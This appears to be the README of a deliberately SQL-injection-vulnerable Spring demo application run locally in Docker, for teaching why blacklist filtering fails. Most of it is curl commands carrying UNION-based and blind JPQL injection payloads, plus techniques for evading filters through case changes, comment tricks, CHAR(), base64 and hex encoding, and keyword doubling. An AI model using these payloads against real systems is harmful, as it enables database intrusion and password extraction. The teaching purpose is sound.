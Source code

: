 # Blacklist Demo for an SQLi vulnerable Spring Application

[![Video introduction](https://asciinema.org/a/ICD8HCOzUafwiftLb6pL44N7w
.png)](https://asciinema.org/a/ICD8HCOzUafwiftLb6pL44N7w)

## TL;DR

To build and run:
```
sudo docker build -t sqli_victim_webapp_java_spring .; sudo docker run --name victim.sqli.webapp_java_spring.tld -ti -p 127.0.0.1:5808:8080 -v "$(pwd)"/webapp_java_spring/:/usr/src/ sqli_victim_webapp_java_spring
```

To fill the database:

```
curl -X GET 'localhost:5808/sqlidemo/all'
curl -X POST localhost:5808/sqlidemo/add -d username=user -d password=password
```

Read username by id:

```
curl localhost:5808/sqlidemo/vulnbyid -d id=1
```

To get access to the database:
```
sudo docker exec -ti victim.sqli.webapp_java_spring.tld mysql --host localhost -uuser -ppassword sqli_example
```

## SQLi

### Java based

Check for union select:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,NULL -- "
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,'A'"
````

Enumerate database:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(SELECT @@VERSION) -- "
curl -X GET localhost:5808/sqlidemo/vulnbyid\?id="1'+UNION+SELECT+NULL,NULL,(SELECT+@@VERSION)+--+"
```

#### Blacklist 

Use 

```
curl localhost:5808/sqlidemo/vulnbyid -d id -d blacklistconfig=help
```

to get a help display of all possible blacklist configurations.

##### Single Quote Replacement

Using Escape Sequences ([https://mariadb.com/kb/en/string-literals/](https://mariadb.com/kb/en/string-literals/)):

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1\' UNION SELECT NULL,NULL,(@@VERSION) -- " -d blacklistconfig=add_oddsinglequotes
```

or as keyword

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) as username from user where id='1" -d blacklistconfig=add_oddsinglequotes
```

##### Any Uppercase

```  
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) -- " -d blacklistconfig=block_anyuppercase
```

##### Any Lowercase

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(@@VERSION) -- " -d blacklistconfig=block_anylowercase
```

##### Keyword Sequences Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union/**/select null,null,(@@version) -- " -d blacklistconfig=block_keywordsequences
```

##### Comment Double Dash Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) #" -d blacklistconfig=block_comment_doubledash
```

##### All Comment Types Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) as username from user where id='1" -d blacklistconfig=block_comment_doubledash,block_comment_hash
```

##### String Detection I

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CONCAT('VERSIO','N')) -- " -d blacklistconfig=block_badstrings
```

or

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name='VERSIO' 'N') -- " -d blacklistconfig=block_badstrings
```


##### String Detection II

Using

```
echo -n 'VERSION'|base64
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=FROM_BASE64('VkVSU0lPTg==')) -- " -d blacklistconfig=block_badstrings,block_concatenation
```

##### String Detection III

Using

```
printf '%d %d %d %d %d %d %d' "'V" "'E" "'R" "'S" "'I" "'O" "'N"
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CHAR(86,69,82,83,73,79,78)) -- " -d blacklistconfig=block_badstrings,block_concatenation,block_base64
```

##### String Detection IV  

Using

```
SELECT CONCAT('0x',HEX('VERSION'))
``` 

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=0x56455253494F4E) -- " -d blacklistconfig=block_badstrings,block_concatenation,block_base64,block_char_function
```

##### All together

```
curl http://localhost:5808/sqlidemo/vulnbyid \       
\
-d id=\                                                                    
"1' unionunion select select null,null,(select variable_value from \       
information_schema.global_variables where variable_name=0x56455253494f4e) \
as username from user where id='1" \
\                       
-d blacklistconfig=\      
add_oddsinglequotes,\     
strip_keywordsequences,\  
block_comment_doubledash,\
block_comment_hash,\ 
block_anyuppercase,\ 
block_badstrings,\   
block_concatenation,\
block_base64,\     
block_char_function
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='p" 
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='a" 
```

## Safe Implementation

### Java based

```
curl localhost:5808/sqlidemo/safebyid -d id="1' AND SUBSTRING(password,1,1)='p"
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/safebyid2 -d id="1' AND SUBSTRING(password,1,1)='p"
```
